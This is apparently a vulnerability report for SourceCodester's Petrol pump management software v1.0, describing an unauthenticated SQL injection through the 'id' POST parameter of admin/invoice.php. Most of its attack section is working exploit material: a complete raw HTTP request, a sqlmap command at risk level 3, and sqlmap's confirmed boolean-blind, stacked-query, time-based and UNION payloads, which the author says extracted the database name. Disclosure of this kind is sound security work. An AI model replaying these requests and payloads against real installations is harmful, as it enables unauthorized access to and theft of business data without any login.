



### Source code

[Petrol pump management software free download | SourceCodester](https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html)


### Description

SQL Injection vulnerability in sourcecodester Petrol pump management software v1.0, A vulnerability has been found that is rated as high risk, affecting some unknown functionality of the admin\invoice.php file, Using parameter id to construct malicious SQL statements to obtain sensitive information, thus causing harm


### Analysis vulnerability

`admin\invoice.php`



Here, the user input `$_POST['id']` is concatenated into the SQL query statement, which is obviously susceptible to SQL injection attacks


### Recurrent vulnerability



```
POST /admin/invoice.php HTTP/1.1
Host: 10.151.167.168:6677
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

id=1*
```

Save the packet and use sqlmap attack

```
python3 sqlmap.py --random-agent -r data.txt --risk 3 --batch
```



```
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: id=-6094' OR 1911=1911 AND 'hAoG'='hAoG

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1041 FROM (SELECT(SLEEP(5)))UTeR) AND 'HnhT'='HnhT

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176626b71,0x6b57657774656652476e4d594f6959545363546f73424a4c547364484a4d47696247447769514653,0x71766b6a71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

Look at the packet, I did not add a cookie value, indicating that no authentication does not need to log in to remotely launch attacks

You can see that this payload utilizes two injection methods, time-based blind、boolean-based blind、stacked queries and UNION query, and successfully injects the database name